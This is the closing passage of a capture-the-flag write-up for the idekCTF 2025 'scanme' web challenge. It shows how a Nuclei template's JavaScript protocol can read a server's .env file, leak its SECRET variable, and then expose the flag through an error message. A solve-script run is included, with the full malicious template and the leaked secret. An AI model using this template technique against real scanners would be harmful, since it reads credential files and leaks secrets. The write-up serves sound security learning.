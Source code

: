 Wait, nothing?

Turns out, [Goja](https://github.com/dop251/goja), a library that implements ECMAScript 5.1 in Golang, doesn't have the context of [`globalThis`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/globalThis). To solve this issue, we can use the alternative, which is global function `log`:

```javascript
require('/home/nuclei/.env');
log(SECRET);
```

```json
{
    "output": "[...]REDACTED[...]",
    "success": true
}
```

Nice! It worked!

## Exploitation

Armed with above information, we can get the flag by:
1. Leak the `SECRET` environment variable via the JavaScript protocol
2. Leak the flag in the error message by using `/flag.txt` as the template file

To automate the above steps, I've written the following Python solve script:

<details class="toc"><summary markdown="span"><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/idekCTF-2025/web/scanme)-[2025.08.06|19:28:19(HKT)]
└> python3 solve.py
[*] Leaking the `SECRET` environment variable with the following template:

id: anything

info:
  name: anything
  author: siunam
  severity: info

javascript:
  - code: |
      require('/home/nuclei/.env');
      log(SECRET);

[+] Leaked `SECRET` environment variable: 220dd99c96ed6d3724e13b3c808565c85e47a4489951241c
[*] Leaking the flag...
[+] Flag: idek{oops_nuclei_leaked_my_secret_and_now_i_am_very_sad_2e315d_:(}
```

- **Flag: `idek{oops_nuclei_leaked_my_secret_and_now_i_am_very_sad_2e315d_:(}`**

## Conclusion

What we've learned:

1. Dirty arbitrary file read via Nuclei template